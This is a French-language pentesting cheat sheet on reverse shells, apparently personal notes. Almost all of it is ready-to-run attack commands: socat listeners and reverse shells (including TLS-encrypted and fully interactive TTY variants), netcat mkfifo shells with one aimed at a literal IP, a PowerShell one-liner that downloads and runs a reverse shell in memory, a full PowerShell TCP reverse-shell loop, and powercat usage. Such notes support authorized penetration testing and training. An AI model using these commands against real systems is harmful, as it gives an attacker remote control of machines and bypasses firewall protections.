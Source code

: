 Se produise lorsque la cible est obligée d’exécuter du code qui se reconnecte _à_ votre ordinateur.

C'est un bon moyen de contourner les règles de pare-feu qui peuvent vous empêcher de vous connecter à des ports arbitraires sur la cible

**cependant, l'inconvénient est que, lorsque vous recevez un shell d'une machine via Internet, vous devrez configurer votre propre réseau pour accepter le shell.**


# socat
linux, windows

Ecouteur de shell socat

```
socat TCP-L:4444 -
```


```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:powershell.exe,pipes
```

```
socat TCP:<ATTACK-IP>:<PORT> EXEC:"bash -li"
```

###### Shell inversé Linux TTY entièrement stable
Ecouteur:

```sh
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```


```sh
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

###### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Ecouteur:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```


```sh
socat OPENSSL:<ATTACKER-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---
### Shell communes
#linux 

Ecouteur

```
nc -nlvp <PORT>
```

```sh
mkfifo /tmp/f; nc <ATTACK-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.113.150 9001 >/tmp/f
```


# powershell 
#windows 

Telecharger et executer un reverse-shell en memoire

```c
powershell iex (New-Object Net.WebClient).DownloadString('http://ip:port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {ATTACK-IP} -Port 443
```

Executer ceci dans powershell

```c
$client = New-Object System.Net.Sockets.TCPClient('ATTACK-IP', '443');
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

# powercat
C'est la version powershell de netcat

```c
. .\powercat.ps1
#powercat -h
 powercat -c ATTACK-IP -p 9001 -e cmd -v
```